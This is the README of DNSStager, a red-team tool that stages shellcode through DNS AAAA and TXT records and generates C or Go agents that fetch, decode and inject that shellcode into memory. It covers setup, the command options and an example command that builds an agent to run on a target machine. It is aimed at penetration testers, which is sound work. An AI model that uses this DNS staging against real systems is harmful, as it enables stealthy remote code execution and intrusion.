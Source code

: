 # What is DNSStager? ![](https://img.shields.io/badge/python-3-blue)

DNSStager is an open-source project based on Python used to hide and transfer your payload using DNS protocol.

DNSStager will create a malicious DNS server that handles DNS requests to your domain and return your payload as a response to specific records such as `AAAA` or `TXT` records after splitting it into chunks and encode the payload using different algorithms.

DNSStager can generate a custom agent written in `C` or `GoLang` that will resolve a sequence of domains, retrieve the payload, decode it and finally inject it into the memory based on any technique you want.

You can edit the code of DNSStager agent as you wish, and build it using your own custom execution techniques.

The main goal of using DNSStager is to help red teamers/pentesters to deliver their payloads in stealthy channel using DNS.


# How it works?

Based on your DNS resolving option, DNSStager will split your payload into chunks and save each chunk of the payload as a response for a subdomain.

For example, if you choose `IPV6` as an option to retrieve the payload, the DNS response will be like the following:

`cloud-srv-1.test.mydnsserver.live. 300 IN AAAA	5648:31d2:6548:8b52:6048:8b52:1848:8b52`

Where `5648:31d2:6548:8b52:6048:8b52:1848:8b52` is a part of your payload.

So, the agent will resolve some domains to retrieve the payload and then decode it and finally inject it into memory.

Currently, DNSStager support two records which are `AAAA` and `TXT` only; You can encode your payload using XOR for the `AAAA` record and by default it will be encoded as base64 if you choose `TXT` record.

# DNSStager key features:

DNSStager has some key features such as:

* Hide and Resolve your payload as `IPV6` records.
* Hide and Resolve your payload as `TXT` records.
* XOR encoder to encode your payload.
* Base64 encoder to encode your payload (only for TXT records).
* Pure agent written in `C` with the ability to customaize it.
* Pure agent written in `GoLang` with the ability to customaize it.
* The ability to use sleep between each DNS request.
* AND MUCH MORE TO COME!

# Requirements

You can install DNSStager python requirements via:

`pip3 install -r requirements.txt`

You need to install `GoLang` version `1.16.3` and to make sure to install the following `GoLang` packages:

* golang.org/x/sys
* github.com/miekg/dns

Also, make sure to install `ming-w64` via:

`apt install mingw-w64`

The script `setup.sh` should do that for you, but double check the requirements before you use it!

# Installation

To get the latest version of DNSStager, make sure to clone it from this repo using the following command:

`git clone https://github.com/mhaskar/DNSStager`

Then you need to install the requirements using the following command:

`pip3 install -r requirements.txt`

And make sure to install all the previously mentioned requirements too.

After doing all that, you are ready to execute DNSStager **as root** to get the following:

```
┌─[askar@hackbook]─[/opt/redteaming/DNSStager]
└──╼ $sudo ./dnsstager.py



██████╗░███╗░░██╗░██████╗░██████╗████████╗░█████╗░░██████╗░███████╗██████╗░
██╔══██╗████╗░██║██╔════╝██╔════╝╚══██╔══╝██╔══██╗██╔════╝░██╔════╝██╔══██╗
██║░░██║██╔██╗██║╚█████╗░╚█████╗░░░░██║░░░███████║██║░░██╗░█████╗░░██████╔╝
██║░░██║██║╚████║░╚═══██╗░╚═══██╗░░░██║░░░██╔══██║██║░░╚██╗██╔══╝░░██╔══██╗
██████╔╝██║░╚███║██████╔╝██████╔╝░░░██║░░░██║░░██║╚██████╔╝███████╗██║░░██║
╚═════╝░╚═╝░░╚══╝╚═════╝░╚═════╝░░░░╚═╝░░░╚═╝░░╚═╝░╚═════╝░╚══════╝╚═╝░░╚═╝    

    Beta Version                           Hide your payload in DNS

[-] Please specify a domain name using --domain
```
# Usage

To start using DNSStager, make sure to setup your DNS settings first, you need to make your domain points to the DNSStager instance as `NS record` in order to handle all the DNS requests to your domain.

You can read this full article about how to setup and use DNSStager.

And you can check the options using `-h` switch like the following:

```
┌─[askar@hackbook]─[/opt/redteaming/DNSStager]
└──╼ $sudo ./dnsstager.py -h
usage: dnsstager.py [-h] [--domain DOMAIN] [--payloads] [--prefix PREFIX]
                    [--payload PAYLOAD] [--output OUTPUT]
                    [--shellcode_path SHELLCODE_PATH] [--xorkey XORKEY]
                    [--sleep SLEEP]

DNSStager main parser

optional arguments:
  -h, --help            show this help message and exit
  --domain DOMAIN       The domain you want to use as staging host
  --payloads            show all payloads
  --prefix PREFIX       Prefix to use as part of your subdomain schema
  --payload PAYLOAD     Payload to use, see --payloads for more details
  --output OUTPUT       Agent output path
  --shellcode_path SHELLCODE_PATH
                        Shellcode file path
  --xorkey XORKEY       XOR key to encode your payload with
  --sleep SLEEP         sleep for N seconds between each DNS request

```

* --domain: you can use this option to select the main domain you will use to handle the DNS requests for.

* -- prefix: The prefix you want to use for the subdomain schema
For example, if your main domain is `fakedns.live` you can specify the prefix as "cdn" for example so the generate domains will be a a pattern as the following:

  * `cdn0.fakedns.live`
  * `cdn1.fakedns.live`
  * `cdnN.fakedns.live`

Where `N` is auto generated number represent the number of chunks of your payload.

* --payload: the DNSStager payload "agent" you want to generate based on the technique, programming language and architecture.

* --output: Output path to save DNSStager executable payload "agent".

* --shellcode_path: Your `raw`/`bin` shellcode path.

* --xorkey: XOR key to encode the payload with.

* --sleep: Used to sleep for N seconds between each DNS request.

## DNSStager Payloads

To check the available DNSStager payloads, you can use `./dnsstager.py --payloads` to get the following results:

```
┌─[askar@hackbook]─[/opt/redteaming/DNSStager]
└──╼ $sudo ./dnsstager.py --payloads

[+] 6 DNSStager payloads Available

x64/c/ipv6			Resolve your payload as IPV6 addresses xored with custom key via compiled x64 C code
x86/c/ipv6			Resolve your payload as IPV6 addresses xored with custom key via compiled x86 C code
x64/golang/txt			Resolve your payload as TXT records encoded using base64 compiled x64 GoLang code
x64/golang/ipv6			Resolve your payload as IPV6 addresses encoded with custom key using byte add encoding via compiled x64 GoLang code
x86/golang/txt			Resolve your payload as TXT records encoded using base64 compiled x86 GoLang code
x86/golang/ipv6			Resolve your payload as IPV6 addresses encoded with custom key using byte add encoding via compiled x86 GoLang code
```
## Example of using DNSStager with IPV6

This example will start DNSStager to resolve your payload as `IPV6` using the domain `test.mydnsserver.live` with prefix `cloud-srv-` to generate compiled `x64 C` agent encoded with 0x10 as key:

`sudo ./dnsstager.py --domain test.mydnsserver.live --payload x64/c/ipv6 --output /tmp/a2.exe --prefix cloud-srv- --shellcode_path ~/payload.bin --sleep 1 --xorkey 0x10
`  

And the output will be:

![Alt text](screenshots/Starting-DNSStager-x64-ipv6.png)

And to check if everything is working well, lets send DNS query to `cloud-srv-0.test.mydnsserver.live` to get the following:

![Alt text](screenshots/DNSStager-dig-test.png)

We can see that we received `f642:89ee:fae2:c20a:a0a:4b5b:4b5a:585b` as response which is the first 16 bytes of our encoded payload.

And the agent `/tmp/a2.exe` will do the work for you when you execute it on the target machine.
